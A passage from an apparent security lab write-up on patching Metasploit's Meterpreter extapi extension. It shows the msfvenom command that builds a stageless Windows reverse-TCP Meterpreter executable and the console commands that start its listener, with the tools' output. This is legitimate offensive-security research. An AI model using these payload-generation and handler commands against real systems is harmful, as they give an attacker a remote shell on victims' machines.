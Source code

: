 2\. Build Meterpreter

See <http://buffered.io/posts/building-meterpreter-is-easy/> and
<https://github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter> for
more details.

Copy the built binaries (within `metasploit-payloads/c/meterpreter/output/*/`)
to `metasploit-framework/data/meterpreter/` to make them available to
Metasploit.

3\. Generate a stageless Windows Meterpreter

Be sure to include the extapi extension. This will result in our patched code
being baked right in to the payload (though this ends up being useless in the
case of extapi, as we'll see in step 4)

```text
% ~/work/metasploitsploit/metasploit-framework/msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=172.18.0.5 LPORT=4444 EXTENSIONS=extapi -f exe -o ~/work/metasploitsploit/windows_x64_meterpreter_reverse_tcp.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x64 from the payload
WARNING: Local file /home/justin/work/metasploitsploit/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
WARNING: Local files may be incompatible with the Metasploit Framework
WARNING: Local file /home/justin/work/metasploitsploit/metasploit-framework/data/meterpreter/ext_server_extapi.x64.dll is being used
No encoder or badchars specified, outputting raw payload
Payload size: 1348147 bytes
Final size of exe file: 1354752 bytes
Saved as: /home/justin/work/metasploitsploit/windows_x64_meterpreter_reverse_tcp.exe
```

4\. Do not unbuild Meterpreter

Since we patched extapi, we need to leave the patched build of Meterpreter
within Metasploit's data directory. Even for a stageless payload that has
extapi baked in to it, you need to do `use extapi` within Metasploit before the
extension's commands will be available to Metasploit. I was under the
impression that Metasploit would not upload a whole new extapi library to
Meterpreter if Meterpreter already has a copy of it, but this did not seem to
be the case in my lab. Metasploit would upload a new copy of extapi, trampling
the patched code within Meterpreter.

An attacker could patch their copy of Meterpreter to just throw away any copy
of the extapi library fed to it by Metasploit. This is an exercise left for the
reader.

5\. Get a session

Start Metasploit, start a stageless Meterpreter handler:

```text
% ~/work/metasploitsploit/metasploit-framework/msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
PAYLOAD => windows/x64/meterpreter_reverse_tcp
msf exploit(handler) > set LHOST 172.18.0.5
LHOST => 172.18.0.5
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j
WARNING: Local file /home/justin/work/metasploitsploit/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
WARNING: Local files may be incompatible with the Metasploit Framework
[*] Exploit running as background job.
msf exploit(handler) >
```